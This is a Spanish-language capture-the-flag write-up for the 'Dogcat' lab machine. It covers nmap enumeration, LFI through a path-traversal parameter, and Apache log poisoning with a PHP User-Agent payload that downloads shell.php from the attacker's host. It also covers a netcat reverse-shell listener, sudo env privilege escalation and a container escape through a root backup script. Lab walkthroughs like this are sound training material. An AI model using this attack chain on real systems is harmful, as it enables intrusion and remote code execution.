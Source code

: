 # Dogcat

Comenzamos como en todos los Write-Ups en enumerar la conectividad y los puertos que encontramos abiertos

```
ping ip
```

```
ping 10.10.55.221
PING 10.10.55.221 (10.10.55.221) 56(84) bytes of data.
64 bytes from 10.10.55.221: icmp_seq=1 ttl=64 time=1.81 ms
64 bytes from 10.10.55.221: icmp_seq=2 ttl=64 time=0.350 ms
^C
--- 10.10.55.221 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 0.350/1.082/1.815/0.733 ms
```

```
sudo nmap -sCV -T4 --min-rate 4000 ip
sudo nmap -sCV -T4 --min-rate 4000 ip -p- o -p
```

```
sudo nmap -sCV -T4 --min-rate 4000 10.10.55.221

Starting Nmap 7.60 ( https://nmap.org ) at 2024-10-28 15:05 GMT
Nmap scan report for ip-10-10-55-221.eu-west-1.compute.internal (10.10.55.221)
Host is up (0.00054s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (EdDSA)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
MAC Address: 02:8D:58:72:CE:E9 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.63 seconds
```

Nos encontramos los tipicos 80 y 22 abiertos, con lo cuál veremos que hay en la web ya sea con curl o metiendonos directamente

![image](https://github.com/user-attachments/assets/5ef49764-57a4-42a5-8fd3-c05d5c55a83b)

Podemos fijarnos de una cosa muy importante y que es muy fácil de ver. La URL vemos un directory traversal un /?view=

Si probamos a poner otra cosa que no sea dog o cat nos salta error, pero vemos que si ponemos por ejemplo /dog nos dice la ruta en la que se encuentra y podemos ver cosas importantes.

- Vemos la ruta /var/www/ tal tal
- Vemos que el archivo es obligatorio que empiece por .php
- Nos obliga a poner la ruta dog obligatoria


Vamos a probar Los tipicos de Directorio para probar, obviamente no vamos a atinar porque tenemos que tener las 3 características.

![image](https://github.com/user-attachments/assets/ab2e4c4a-c34d-49f9-8a2e-d1bddc3ea425)

¿Como lo he conseguido?

Como podemos ver tenemos las 3 características, quitamos la extensión php con &ext, nos vamos a la ruta /etc/passwd con ../../ y por ultimo empezamos con dog pero lo quitamos con ) 

Vamonos al developer para ver mejor el etc/host o cualquier otra cosa porque desde aquí podemos hacer cosas chulas.

[Apache log poisoning](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/?ref=fr33s0ul.tech)

Vale después de que lo os leais os comento como funciona el LFI gracias al path traversal

Nos creamos una shell con pentest monkey, cuando la tengamos creada abrimos un servidor http y un netcat

```
python3 -m http.server
rlwrap nc -lvnp puerto
```

Cuando tengamos todo abierto, nos vamos a la dirección anterior y recogemos la URL

![image](https://github.com/user-attachments/assets/d47fd630-500b-4fc6-bf9a-ba57b54f1272)

Como vemos deberemos cambiar el user-agent a 

```
<?php file_put_contents('shell.php', file_get_contents('http://[your-host]/shell.php'))?>
```

Gracias a esto recogera el archivo en cuestión yo le he llamado "shell.php" vosotros lo podeir llamar como queraís

Posteriormente nos iremos a la url del target

http//target/shell.php

Y gg estamos dentro.

![image](https://github.com/user-attachments/assets/b8ee674e-c74c-484a-8038-7e2b927ea9f5)

Posteriormente tenemos aquí dos opciones, intentar escalar privilegios o ir sacando las flags, como he podido ver con el www-data podemos sacar 3 flagas. Pista:

```
find / -type f -name (nombre)* 2>/dev/null
```

Por ahora voy a intentar escalar y como vemos tenemos la posibilidad de ejectuar con /usr/bin/env

![image](https://github.com/user-attachments/assets/8832b510-d34f-4096-aec5-ee484ffc6853)

Y esta vulnb es bastante fácil

![image](https://github.com/user-attachments/assets/f892f79f-18e8-4e42-a89a-4f53b79f705a)

Nos queda la ultima flag y como vemos estamos dentro de un container que no esta con la máquina en sí. 

[Escapar del contenedor](https://www.bleepingcomputer.com/news/security/escaping-containers-to-execute-commands-on-play-with-docker-servers/?ref=fr33s0ul.tech)

Como bien sabemos todo lo que sea una carpeta backup es interesante.

![image](https://github.com/user-attachments/assets/afdb7e88-23d0-42f1-823d-87504060c6e8)

Dentro de ella encontramos un backup.sh

```
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
```

Como vemos coge el backup.tar de /root/container, podemos añadir una rev shell dandonos acceso al mismo hosts del root.

![image](https://github.com/user-attachments/assets/deffe675-a913-438f-baad-98a12a5a40d2)

Vamos a ver si funciona y si nos da la rev shell.

![image](https://github.com/user-attachments/assets/9ac19b60-b612-44c0-844e-6ed97e6f0440)

GG HAPPY HACKINGGG!!!





